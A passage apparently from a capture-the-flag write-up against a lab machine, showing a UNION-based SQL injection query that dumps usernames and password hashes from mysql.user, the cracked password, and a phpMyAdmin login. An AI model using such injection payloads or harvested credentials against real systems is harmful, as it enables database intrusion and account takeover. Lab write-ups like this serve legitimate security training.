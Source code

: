 #### Data Extraction

The query to extract data from the "User" and "Password" fields is as follows:

> 99 UNION SELECT NULL,NULL,(SELECT GROUP\_CONCAT("\r\n",User,":",Password) FROM mysql.user),NULL,NULL,NULL,NULL

The results:

![](<../../.gitbook/assets/17 (1).JPG>)

Nice, we have extracted some user credentials, albeit a username and a hashed password.

> DBadmin:\*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0

We can use an online hash cracker to easily crack this hash, for example [https://crackstation.net/](https://crackstation.net). We now have the following set of creds:

> DBadmin:imissyou

We now have a set of credentials, and we can use it to successfully login to the [http://10.10.10.143/phpmyadmin](http://10.10.10.143/phpmyadmin/) page.

![](<../../.gitbook/assets/18 (1).JPG>)
